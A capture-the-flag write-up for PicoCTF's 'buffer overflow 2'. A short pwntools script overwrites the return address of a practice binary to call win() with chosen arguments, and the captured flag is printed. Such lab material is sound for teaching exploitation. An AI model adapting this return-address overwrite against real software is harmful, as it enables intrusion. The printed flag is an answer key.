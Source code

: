 # PicoCTF – buffer overflow 2

* **Category:** Binary Exploitation
* **Points:** 300 points

## Challenge

> Control the return address and arguments This time you'll need to control the arguments to the function you return to!
> Can you get the flag from this program? You can view source here. And connect with it using

## Solution

Calling conventions for x86

```python
from pwn import *
elf = context.binary = ELF('./vuln', checksec=False)
p = remote("saturn.picoctf.net", 52894)#process(['gdb','./vuln'])

offset = 112

p.recvline()
payload = flat(
        offset * b'A',
        0x8049296, # win()
        b"\x90" * 4,
        0xCAFEF00D,
        0xF00DF00D
)
p.clean()
p.sendline(payload)
p.recvline()
p.interactive()
```

```
Flag: picoCTF{argum3nt5_4_d4yZ_b3fd8f66}
```
